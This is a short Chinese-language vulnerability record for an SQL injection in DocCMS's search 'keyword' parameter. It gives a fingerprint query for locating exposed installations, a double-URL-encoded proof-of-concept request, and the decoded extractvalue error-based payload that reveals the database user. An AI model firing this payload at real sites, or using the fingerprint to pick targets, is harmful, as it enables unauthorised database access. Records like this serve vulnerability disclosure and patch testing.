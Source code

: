 # DocCMS keyword SQL注入漏洞

## 漏洞描述

DocCMS keyword参数存在 SQL注入漏洞，攻击者通过漏洞可以获取数据库信息

## 漏洞影响

```
DocCMS
```

## 网络测绘

```
app="Doccms"
```

## 漏洞复现

CMS官网

![](images/202202170903272.png)

验证POC

```plain
/search/index.php?keyword=1%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%38%25%36%35%25%37%38%25%37%34%25%37%32%25%36%31%25%36%33%25%37%34%25%37%36%25%36%31%25%36%63%25%37%35%25%36%35%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%37%35%25%37%33%25%36%35%25%37%32%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%39%25%32%39%25%32%33
```

![](images/202202170903242.png)

其中payload为下列语句的二次Url编码

```plain
' and (extractvalue(1,concat(0x7e,(select user()),0x7e)))#
```